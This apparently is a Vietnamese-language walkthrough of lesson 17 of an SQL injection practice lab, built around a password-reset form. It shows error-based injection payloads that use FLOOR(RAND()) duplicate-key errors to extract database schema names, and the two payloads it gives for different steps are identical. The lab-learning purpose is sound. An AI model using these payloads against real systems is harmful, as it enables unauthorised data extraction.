





# Những việc làm được với lesson-17
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-17



Ta thấy ở đầu có ghi là `[PASSWORD RESET]` thì tôi đoán đây là một câu lệnh update trong `MariaDB` và nó được sử dụng method post để cập nhật lại password của user nào đó 

Nếu mà như vậy ta có 2 khung cần nhập là user và password thì tôi đoán câu lệnh update của nó sẽ là

```
update users set password='anhduc' where username='user';
```

Ta đã tìm được ra câu lệnh update rồi nhưng mà vấn đề là làm sao để chúng ta biết user nào để tạo ra điều kiện where cho nó 

1. Pass qua đăng nhập 



Tôi đã thử nhập user là `Dhakkan` và thấy rằng nó đăng nhập thành công

## Error-base 
- Sau rất nhiều lần nhập các ký tự đặc biệt mà vẫn không thấy lỗi ở khung user tôi chuyển sang password nhập ký tự đặc biệt thì nó báo lỗi 



- Đây là báo lỗi cấu trúc của password nên ta có thể sử dụng khung lỗi để lấy được thông tin trong DB 

1. Tìm thông tin của DB. Vẫn dùng với user là `Dhakkan`

```
1' and (SELECT 0 FROM (SELECT count(*), CONCAT((select SCHEMA_NAME from information_schema.schemata limit 0,1 ), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) #
```



2. Hiển thị tên DB 

```
1' and (SELECT 0 FROM (SELECT count(*), CONCAT((select SCHEMA_NAME from information_schema.schemata limit 0,1 ), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) #
```



Tương tự như các bài error-base ta làm trước thì ta có thể làm show được thông tin cấu trúc của DB 

